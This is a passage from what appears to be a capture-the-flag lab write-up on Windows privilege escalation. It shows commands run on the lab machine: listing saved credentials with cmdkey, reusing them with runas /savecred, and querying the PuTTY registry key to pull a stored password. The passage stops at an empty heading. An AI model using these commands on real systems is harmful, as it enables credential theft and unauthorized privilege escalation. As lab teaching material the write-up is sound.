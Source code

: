 **Victim(cmd)**

```
cmdkey /list
runas /savecred /user:WPRIVESC1\mike.katz cmd.exe
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?**

**Victim(cmd)**

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Other Quick Wins

**What is the taskusr1 flag?**

**Victim(cmd)**
